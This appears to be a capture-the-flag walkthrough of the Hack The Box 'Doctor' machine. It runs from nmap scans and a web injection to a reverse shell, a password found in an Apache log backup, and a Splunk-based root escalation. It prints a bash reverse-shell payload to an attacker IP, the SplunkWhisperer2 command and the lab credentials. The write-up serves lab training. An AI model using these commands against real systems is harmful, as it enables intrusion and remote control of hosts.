# [Doctor](https://app.hackthebox.com/machines/doctor)


```bash
nmap -p- --min-rate 10000  10.10.10.209 
```



After discovering open ports, let's do wider scan for them.

```bash
nmap -A -sC -sV -p22,80,8089 10.10.10.209
```




We see that port 8089 runs 'Splunk' httpd.

After seeing the mail of them 'info@doctors.htb' , we can add ip address to '/etc/hosts' file for resolving purposes.

```bash
┌──(root㉿kali)-[~]
└─# cat /etc/hosts           
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.10.37 blocky.htb
10.10.10.209 doctors.htb
```

Once we logged in system we have (20 minutes to make discover).

We can make post.




Let's try to command injection, I found below payload for this that , it's like **Stored XSS** that, I put malicious HTML tag into web application's post field which request to my machine to get reverse shell.

```bash

```



I got reverse shell.




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




After enumeration on machine, we see that this user belongs 'adm' group also.



On this `/var/log/apache2` directory, I found called a 'backup', let's read this file to find any stored password.




We find password via below method.
```bash cat backup  | grep "pass"```




That's the password of 'shaun' user.

shaun : Guitar123


user.txt




For privilege escalation to 'root' user, I came back to before that I know Splunk service is also running.
[Here](https://github.com/cnotin/SplunkWhisperer2), I find how to privesc to root user.

```bash
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.16.5 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.16.5/1338 0>&1'"
```





root.txt

